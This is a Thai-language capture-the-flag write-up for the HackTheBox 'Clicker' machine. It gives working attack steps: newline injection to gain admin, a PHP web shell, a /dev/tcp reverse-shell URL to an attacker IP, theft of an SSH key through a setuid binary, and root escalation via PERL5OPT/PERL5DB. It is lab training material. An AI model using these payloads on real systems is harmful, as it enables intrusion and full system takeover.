



# Host Scan

```bash
sudo ./scan.sh 10.10.11.232
[sudo] password for administrator: 
[*] Running rustscan...
[*] Running nmap on ports: 22,80,111,2049,35793,37475,45789,48719,50517
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-16 09:17 +07
Nmap scan report for 10.10.11.232
Host is up (0.029s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 89:d7:39:34:58:a0:ea:a1:db:c1:3d:14:ec:5d:5a:92 (ECDSA)
|_  256 b4:da:8d:af:65:9c:bb:f0:71:d5:13:50:ed:d8:11:30 (ED25519)
80/tcp    open  http     Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://clicker.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      45789/tcp   mountd
|   100005  1,2,3      53087/udp6  mountd
|   100005  1,2,3      55151/tcp6  mountd
|_  100005  1,2,3      56231/udp   mountd
2049/tcp  open  nfs      3-4 (RPC #100003)
35793/tcp open  nlockmgr 1-4 (RPC #100021)
37475/tcp open  mountd   1-3 (RPC #100005)
45789/tcp open  mountd   1-3 (RPC #100005)
48719/tcp open  mountd   1-3 (RPC #100005)
50517/tcp open  status   1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.49 seconds

```


## HTTP - TCP/80

จากข้อมูลข้างต้นให้ลองเพิ่ม clicker.htb เข้าไป และทดสอบเข้าจะพบกับหน้าเว็บต่อไปนี้ 



ให้ลอง Register และ Login จะพบกับหน้า play.php 


---

## NFS - TCP 111,2049 

พอร์ต 111,2049 เป็น NFS ซึ่งเป็นบริการไฟล์แชร์ ซึ่งเราสามารถใช้คำสั่ง showmount 
```bash
showmount -e 10.10.11.232 
# RESULT
Export list for 10.10.11.232:
/mnt/backups *
```

จากนั้นลองสร้าง Folder สำหรับ mount NFS มาที่ Folder ดังกล่าว

```bash
mkdir clicker-nfs
sudo mount -t nfs 10.10.11.232:/ ./clicker-nfs -o nolock
```


หลังจากที่ unzip มาแล้วจะพบว่ามีไฟล์ clicker.htb ซึ่งคาดว่าเป็นไฟล์สำหรับเว็บ Application ใน Port 80 โดยมีไฟล์ save_game.php ที่ดูน่าสนใจ


สำรวจข้อมูลอื่นๆ 

admin.php
```php
<?php
session_start();
include_once("db_utils.php");

if ($_SESSION["ROLE"] != "Admin") {
  header('Location: /index.php');
  die;
}
?>
```

จากหน้านี้จะเห็นว่ามี role ที่ชื่อว่า admin และมีส่วนของการเรียกใช้ function ชื่อ get_top_players เพื่อดึงข้อมูลมาใส่ในตาราง ซึ่งอยู่ภายใน ==db_utils.php==  ที่มีการ include อยู่ด้านบน 


หากเราไปเปิดไฟล์ db_util.php จะพบว่ามีฟังก์ชัน get_top_player มีการเรียกใช้ sql statement อยู่


และที่สำคัญเราได้ข้อมูลของ user:pass ของ database ด้วย 

```php
$db_server="localhost";
$db_username="clicker_db_user";
$db_password="clicker_db_password";
$db_name="clicker";
$mysqli = new mysqli($db_server, $db_username, $db_password, $db_name);
$pdo = new PDO("mysql:dbname=$db_name;host=$db_server", $db_username, $db_password);
```

และหากดู save_game.php เราจะพบกับ role ของ PLAYER 

```php
<?php
session_start();
include_once("db_utils.php");

if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
	$args = [];
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
		$args[$key] = $value;
	}
	save_profile($_SESSION['PLAYER'], $_GET);
	// update session info
	$_SESSION['CLICKS'] = $_GET['clicks'];
	$_SESSION['LEVEL'] = $_GET['level'];
	header('Location: /index.php?msg=Game has been saved!');
	
}
?>

```

ทั้งนี้ภายใต้ db_util.php จะมี 2 ฟังก์ชันที่ดูจะเป็นช่องโหว่ที่น่าสนใจสำหรับยกระดับสิทธิของ Player ไปเป็น Admin ได้

```php
function create_new_player($player, $password) {
	global $pdo;
	$params = ["player"=>$player, "password"=>hash("sha256", $password)];
	$stmt = $pdo->prepare("INSERT INTO players(username, nickname, password, role, clicks, level) VALUES (:player,:player,:password,'User',0,0)");
	$stmt->execute($params);
}

function save_profile($player, $args) {
	global $pdo;
  	$params = ["player"=>$player];
	$setStr = "";
  	foreach ($args as $key => $value) {
    		$setStr .= $key . "=" . $pdo->quote($value) . ",";
	}
  	$setStr = rtrim($setStr, ",");
  	$stmt = $pdo->prepare("UPDATE players SET $setStr WHERE username = :player");
  	$stmt -> execute($params);
}

```

## Bypass to Admin 

การเลี่ยงการตรวจสอบนี้ คือการใช้ **newline injection** (การแทรกบรรทัดใหม่) ในชื่อพารามิเตอร์ โดย SQL มักจะยืดหยุ่นกับช่องว่างหรือการเว้นบรรทัด (ในความเป็นจริง มักจะเป็นแนวทางปฏิบัติที่ดีในการแยก query ยาว ๆ ออกเป็นหลายบรรทัด) ดังนั้น หากฉันใช้พารามิเตอร์เป็น `role%0a=Admin` (ซึ่ง `%0a` คือรหัสของการขึ้นบรรทัดใหม่ `\n`), การตรวจสอบเงื่อนไข `strtolower($key) === 'role'` ก็จะไม่เป็นจริง เพราะชื่อพารามิเตอร์จะไม่ใช่ `'role'` ตรง ๆ เมื่อมันไปถึงฟังก์ชัน `save_profile`

ซึ่งเราจะต้องพยายามยกรดับสิทธิด้วยคำสั่ง SQL Statement ดังต่อไปนี้ 

```sql
UPDATE players SET clicks='4',level='0',role
='Admin' WHERE username = "ice";
```

สังเกตจากตัวอย่างด้านบนคือ เราได้เว้รบรรทัดสำหรับหลีกเลี่ยงการตรวจจับ 



จากนั้นให้ลอง logout และ login  ใหม่ จะพบว่ามีเมนู administrator ขึ้นมา 


สำหรับหน้า admin portal เราจะสามารถ export ข้อมูลของ top player ได้ ซึ่งเมื่อเรากด export เราจะได้ข้อมูลของ url กลับมา 




จากข้อมูลดังกล่าวแสดงให้เห็นว่ามีการสร้างไฟล์ใหม่ขึ้นมา อยู่ภายใต้ export ซึ่งหากเราไปดู Request จะพบว่ามีการส่ง extension เป็น txt แต่หากเราเปลี่ยนเป็น php ก็สามารถทำได้เช่นกัน 


จากนั้นในหน้า save_profile.php เราจะพยายามแทรกโค็ด php ลงไปใน arg nickname 

```php
<?php system($_GET["cmd"]); ?>
```


จากนั้น save บน export.php ไฟล์ php 


ซึ่งหากเข้าผ่าน url แล้วตามด้วย cmd=id จะได้ข้อมูลดังต่อไปนี้ 


## Exploit to SHELL!

```bash
http://clicker.htb/exports/top_players_mvu1v3r0.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.9/443%200%3E%261%27
```

เมื่อรันด้านบนเราจะได้รับ reverse shell กลับมา 


ให้เราตรวจสอบไฟล์ที่น่าสนใจที่สามารถรันด้วยสิทธิของ jack ซึ่งจะพบว่ามีไฟล์ที่อยู่ภายใต้ /opt/manage ซึ่งมี execute_query อยู่ โดยหากเปิด README.txt ดูจะเห็นว่าเป็นโปรแกรมที่สามารถดำเนินการเกี่ยวกับฐานข้อมูล

```bash
www-data@clicker:/opt/manage$ ls -la 
ls -la 
total 28
drwxr-xr-x 2 jack jack  4096 Jul 21  2023 .
drwxr-xr-x 3 root root  4096 Jul 20  2023 ..
-rw-rw-r-- 1 jack jack   256 Jul 21  2023 README.txt
-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 execute_query
www-data@clicker:/opt/manage$ cat README.txt
cat README.txt
Web application Management

Use the binary to execute the following task:
	- 1: Creates the database structure and adds user admin
	- 2: Creates fake players (better not tell anyone)
	- 3: Resets the admin password
	- 4: Deletes all users except the admin
www-data@clicker:/opt/manage$ ./execute_query 1
./execute_query 1
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
CREATE TABLE IF NOT EXISTS players(username varchar(255), nickname varchar(255), password varchar(255), role varchar(255), clicks bigint, level int, PRIMARY KEY (username))
--------------

--------------
INSERT INTO players (username, nickname, password, role, clicks, level) 
	VALUES ('admin', 'admin', 'ec9407f758dbed2ac510cac18f67056de100b1890f5bd8027ee496cc250e3f82', 'Admin', 999999999999999999, 999999999)
	ON DUPLICATE KEY UPDATE username=username
--------------

www-data@clicker:/opt/manage$ 

```

จากนั้นเราจะทำการ copy file ดังกล่าวออกไปวิเคราะห์ โดยการแปลงให้เป็น base64 ก่อน แล้วนำไปสร้างไว้ใน kali 

```bash
base64 execute_query  ## Victim File 

## KALI 
vim executeB64 #copy all of it to this file 
base64 -d executeB64 > execute_query 

md5sum execute_query
# Result should be same 
f09a05ad831b9a4c7cf8cce4d7ae4b81  execute_query
```

## Reverse binary by Ghidra 

```c

undefined8 main(int param_1,long param_2)

{
  int iVar1;
  undefined8 uVar2;
  char *pcVar3;
  size_t sVar4;
  size_t sVar5;
  char *__dest;
  long in_FS_OFFSET;
  char local_98 [32];
  char local_78 [88];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1 < 2) {
    puts("ERROR: not enough arguments");
    uVar2 = 1;
  }
  else {
    iVar1 = atoi(*(char **)(param_2 + 8));
    pcVar3 = (char *)calloc(0x14,1);
    switch(iVar1) {
    case 0:
      puts("ERROR: Invalid arguments");
      uVar2 = 2;
      goto LAB_001015e1;
    case 1:
      strncpy(pcVar3,"create.sql",0x14);
      break;
    case 2:
      strncpy(pcVar3,"populate.sql",0x14);
      break;
    case 3:
      strncpy(pcVar3,"reset_password.sql",0x14);
      break;
    case 4:
      strncpy(pcVar3,"clean.sql",0x14);
      break;
    default:
      strncpy(pcVar3,*(char **)(param_2 + 0x10),0x14);
    }
    builtin_strncpy(local_98,"/home/jack/queries/",0x14);
    sVar4 = strlen(local_98);
    sVar5 = strlen(pcVar3);
    __dest = (char *)calloc(sVar5 + sVar4 + 1,1);
    strcat(__dest,local_98);
    strcat(__dest,pcVar3);
    setreuid(1000,1000);
    iVar1 = access(__dest,4);
    if (iVar1 == 0) {
      builtin_strncpy(local_78,
                      "/usr/bin/mysql -u clicker_db_user --password=\'clicker_db_password\' clicker -v < "
                      ,0x51);
      sVar4 = strlen(local_78);
      sVar5 = strlen(pcVar3);
      pcVar3 = (char *)calloc(sVar5 + sVar4 + 1,1);
      strcat(pcVar3,local_78);
      strcat(pcVar3,__dest);
      system(pcVar3);
    }
    else {
      puts("File not readable or not found");
    }
    uVar2 = 0;
  }
LAB_001015e1:
  if (local_20 == *(long *)(in_FS_OFFSET + 0x28)) {
    return uVar2;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}

```


สิ่งที่น่าสนใจคือ switch case ในหัวข้อ default ที่มีการใช้ arg 2 ด้วย 

```c
switch(iVar1) {
  case 1: "create.sql"
  case 2: "populate.sql"
  case 3: "reset_password.sql"
  case 4: "clean.sql"
  default: ใช้ `$argv[2]` (เช่น argv[1] = 5 → ใช้ argv[2] เป็นชื่อไฟล์)
}

```

ซึ่งหากเราทดสอบการใช้งาน 


## SSH to jack 

และเนื่องจากว่าในโปรแกรมมีการเรียกใช้จาก path :  builtin_strncpy(local_98,"/home/jack/queries/",0x14); ซึ่งเราสามารถหาข้อมูลของ id_rsa ได้ 


จากนั้นทำการแก้ไขไฟล์ id_rsa ที่ได้โดยเพิ่ม -- ทั้ง bigin และ end ในตอนท้าย และใช้คำสั่ง 
```bash
ssh -i ~/Desktop/jj.rsa jack@clicker.htb
```

# Privilege Escalation 

เราสามารถใช้ sudo -l จะเห็นว่ามีไฟล์ที่รันด้วยสิทธิ root คือ /opt/monitor.sh 

```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ); then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi

```


## 🔍 วิเคราะห์ `monitor.sh`

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  echo "Error, please run as root"
  exit
fi
```

🔸 ต้องรัน script นี้ด้วย **สิทธิ์ root** เท่านั้น (ผ่าน `sudo` หรือรันจาก cron/service)

---

```bash
set PATH=...
unset PERL5LIB
unset PERLLIB
```

🔸 ตั้งค่า `PATH` ใหม่  
🔸 ล้างตัวแปร `PERL5LIB` กับ `PERLLIB` ซึ่งเป็น lib path ของ Perl  
🔸 **แต่ไม่ได้ unset `PERL5OPT` หรือ `PERL5DB`**

➡️ นี่คือจุดอ่อนสำคัญ!

---

```bash
data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token)
```

🔸 ดึงข้อมูล XML มาจากเซิร์ฟเวอร์ภายใน (หรือ mock server) แล้วเก็บไว้ในตัวแปร `data`

---

```bash
/usr/bin/xml_pp <<< $data
```

### 💥 นี่คือจุดสำคัญของช่องโหว่
🔸 `xml_pp` คือ Perl script (จากโมดูล `XML::Twig`)  
🔸 มันรันโดย **Perl interpreter**  
🔸 และ Perl จะ **อ่าน environment variables** เช่น `PERL5OPT` และ `PERL5DB` ก่อนเริ่มต้น

---
## 🧨 ช่องโหว่: Privilege Escalation via Perl Debugger

หาก attacker สามารถรัน `monitor.sh` ด้วย ENV ที่กำหนดเอง เช่น:
```bash
PERL5OPT=-d PERL5DB='BEGIN { exec "/bin/sh" }' ./monitor.sh
```

จะทำให้:
- Perl ถูกบังคับเข้าสู่โหมด debug (`-d`)
- Perl จะรัน block ที่อยู่ใน `PERL5DB` (`BEGIN { exec "/bin/sh" }`)
- **Shell จะถูกเปิดทันที** ภายใต้สิทธิ์ root
- ถึงแม้ `PERL5LIB` และ `PERLLIB` ถูก `unset` แล้ว แต่ไม่ได้ปิด `PERL5OPT` ซึ่งมีผลมากกว่าในกรณีนี้
    

```bash
jack@clicker:/var/www/clicker.htb$ sudo PERL5OPT=-d PERL5DB='system("touch /tmp/ice")' /opt/monitor.sh 
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.
jack@clicker:/var/www/clicker.htb$ ls -la /tmp
total 52
drwxrwxrwt 13 root root 4096 May 16 07:33 .
drwxr-xr-x 18 root root 4096 Sep  5  2023 ..
drwxrwxrwt  2 root root 4096 May 16 05:59 .font-unix
-rw-r--r--  1 root root    0 May 16 07:33 ice
drwxrwxrwt  2 root root 4096 May 16 05:59 .ICE-unix
drwx------  3 root root 4096 May 16 06:01 systemd-private-ad499bc39d364c5684d18f3120b44d50-apache2.service-AZWnEA
drwx------  3 root root 4096 May 16 05:59 systemd-private-ad499bc39d364c5684d18f3120b44d50-ModemManager.service-Bz0sNY
drwx------  3 root root 4096 May 16 05:59 systemd-private-ad499bc39d364c5684d18f3120b44d50-systemd-logind.service-e2yERr
drwx------  3 root root 4096 May 16 05:59 systemd-private-ad499bc39d364c5684d18f3120b44d50-systemd-resolved.service-6sEz2d
drwx------  3 root root 4096 May 16 05:59 systemd-private-ad499bc39d364c5684d18f3120b44d50-systemd-timesyncd.service-dOuFep
drwxrwxrwt  2 root root 4096 May 16 05:59 .Test-unix
drwx------  2 root root 4096 May 16 05:59 vmware-root_799-4248614968
drwxrwxrwt  2 root root 4096 May 16 05:59 .X11-unix
drwxrwxrwt  2 root root 4096 May 16 05:59 .XIM-unix

## ATTACK 
jack@clicker:/var/www/clicker.htb$ sudo PERL5OPT=-d PERL5DB='system("cp /bin/bash /tmp/ice; chown root:root /tmp/ice; chmod 6777 /tmp/ice")' /opt/monitor.sh 
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.
jack@clicker:/var/www/clicker.htb$ /tmp/ice -p
ice-5.1# whoami
root
ice-5.1# cd /root
ice-5.1# ls 
diagnostic_files  restore  root.txt
ice-5.1# cat root.txt
54b9eb675fb5c1b780da2c3c71c007f5
ice-5.1# 
```


# PWNED